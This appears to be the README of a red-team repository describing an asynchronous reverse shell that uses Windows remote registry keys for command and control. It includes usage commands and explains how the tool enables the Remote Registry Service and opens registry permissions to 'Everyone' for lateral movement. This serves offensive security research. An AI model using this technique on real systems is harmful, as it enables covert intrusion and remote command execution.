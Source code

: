 # Everything Is A(n asynchronous) Reverse Shell

This repository is made to explore some uncommon ways for establishing command and control (c2) on Microsoft Windows systems. 

The reverse shells in this repository are asynchronous just like Cobalt Strikes shells. Asyncronous, meaning that the client and server will not communicate all the time like a standard TCP reverse shell. Instead, the client will check-in for any new commands from the server. If a command is found, it will execute it and post the output back to the server. The checkin-interval is also just like Cobalt Strikes sleep timer. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows administrators to read, write & delete registry keys on remote systems using the RPC protocol. Using  custom code, it is possible to create a client-server relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, should only be suitable for lateral movement on local networks. 

### Usage:
**Server (listener):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe dc01
>help
sleep 10         Set the sleep time to 10
cmd whoami       Execute whoami
exit             Exit the application gracefully
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name to use>
RegC2Client.exe dc01 ws01
```

### How it works:
When the server starts, the Remote Registry Service is enabled. Then, the registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined name> is created along with the following registry values: cmd, output & sleep. 
Permissions are then set for the user "Everyone" on the newly created registry key and, importantly, the registry key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. 

This ensures that the client can authenticate to the server and has access to the relevant registry values. On exiting the server, the permissions are removed again. 

### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 

